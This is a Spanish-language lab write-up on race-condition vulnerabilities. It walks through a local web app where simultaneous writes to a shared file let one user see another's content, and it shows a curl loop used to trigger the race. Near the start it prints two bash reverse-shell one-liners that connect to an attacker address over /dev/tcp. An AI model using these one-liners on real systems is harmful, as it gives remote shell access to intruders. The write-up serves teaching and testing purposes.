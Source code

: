 ![Untitled](Condiciones%20de%20carrera%20(Race%20Condition)%2084878b96e88941f8b828e1ae947a2d18/Untitled%2016.png)

Aunque la idea de este lab es aplicar un Race Condition, se podría ejecutar un comando para mandar una shell interactiva al atacante:

```bash
bash -c "bash -i >& /dev/tcp/192.168.0.108/4646 0>&1"
bash -c 'bash -i >& /dev/tcp/192.168.0.108/4646 0>&1'
```

![Untitled](Condiciones%20de%20carrera%20(Race%20Condition)%2084878b96e88941f8b828e1ae947a2d18/Untitled%2017.png)

## Race Condition - File Write

![Untitled](Condiciones%20de%20carrera%20(Race%20Condition)%2084878b96e88941f8b828e1ae947a2d18/Untitled%2018.png)

Esta página web consiste en que se puede crear un archivo y su contenido será lo que el usuario ingrese en la URL, al enviar la petición abrirá una ventana para descargar el archivo, el archivo en este caso siempre se llamará igual (”shared-file.txt”).

![Untitled](Condiciones%20de%20carrera%20(Race%20Condition)%2084878b96e88941f8b828e1ae947a2d18/Untitled%2019.png)

![Untitled](Condiciones%20de%20carrera%20(Race%20Condition)%2084878b96e88941f8b828e1ae947a2d18/Untitled%2020.png)

![Untitled](Condiciones%20de%20carrera%20(Race%20Condition)%2084878b96e88941f8b828e1ae947a2d18/Untitled%2021.png)

A nivel de código primero toma el valor que se ingresó en el parámetro de la URL y se almacena en “value”, luego se escribe en el archivo “shared-file.txt”, el valor de “value” y el resto se encarga de mostrar la ventana de descarga en pantalla.

![Untitled](Condiciones%20de%20carrera%20(Race%20Condition)%2084878b96e88941f8b828e1ae947a2d18/Untitled%2022.png)

Aquí hay un pequeño margen entre que se crea el archivo y cuando se la ventana para descargarlo y esto puede derivarse a un Race Condition, por ejemplo, si múltiples usuarios están escribiendo y almacenando contenido en el archivo shared-file.txt puede ser que dos o varios usuarios en simultaneo escriban en el 

archivo y a la hora de mostrar el contenido, se vea el de otra persona.

Por ejemplo, se simularán dos usuarios, uno será desde la máquina local y el otro desde Burpsuite:

El usuario que opera desde la máquina local está ejecutando en bucle infinito, un comando con curl para crear un archivo:

```bash
while true; do curl -s -X GET "http:localhost:5000/hola" | 
grep -v "hola"; done
```

![Untitled](Condiciones%20de%20carrera%20(Race%20Condition)%2084878b96e88941f8b828e1ae947a2d18/Untitled%2023.png)

Y por otro lado, hay otro usuario que también está escribiendo contenido en el archivo:

![Untitled](Condiciones%20de%20carrera%20(Race%20Condition)%2084878b96e88941f8b828e1ae947a2d18/Untitled%2024.png)

Debido a que ambos están escribiendo al mismo tiempo y están operando en el mismo archivo, por el pequeño margen que hay entre que se escribe el archivo y se muestra la ventana para descargarlo, puede ser que se sobrescriban entre ellos y se de el Race Condition
